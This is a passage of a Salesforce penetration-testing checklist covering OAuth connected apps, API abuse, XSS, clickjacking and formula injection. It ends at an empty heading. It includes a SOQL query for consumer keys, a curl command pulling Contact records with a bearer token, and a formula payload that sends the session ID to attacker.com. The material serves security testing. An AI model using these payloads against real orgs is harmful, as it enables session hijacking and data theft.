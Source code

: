 **SOQL**
```soql
SELECT Name, CallbackUrl, ConsumerKey FROM ConnectedApplication
```

**Test**
- Manipulate OAuth `redirect_uri`, overbroad scopes (`full`, `api`)
- Use unauthorized/abused OAuth tokens for data exfiltration

### Named Credentials

- Examine endpoint security (must be HTTPS)
- Test for SSRF, credential leak via misconfigured objects.

### REST/SOAP/Bulk API

- Test for excessive permissions via API tokens
- Abuse `/services/data/vXX.0/{sobjects/query/apexrest}` endpoints

**API Abuse Example**
```bash
curl -H "Authorization: Bearer <TOKEN>" \
     "https://<instance>.salesforce.com/services/data/v58.0/sobjects/Contact"
```

---

## 9. Client-Side & UX Vulnerabilities

### XSS & DOM-Based Attacks

- Insert payloads into custom inputs/components or formula fields
- Look for `retURL`/`startURL` open redirect in auth flows

### Clickjacking/CSRF

- _Setup > Session Settings_: Confirm clickjack protection is ON
- Try embedding Salesforce pages in iframes

---

## 10. Advanced & Chainable Attack Vectors

### Formula Injection

**Payloads**
```js
HYPERLINK("javascript:alert('Formula XSS')", "Click")
HYPERLINK("http://attacker.com/?sid="&$Api.Session_ID, "Export SID")
```
- Query all formula fields with potentially dangerous logic

### Platform Event/Process Builder/Flow Exploitation
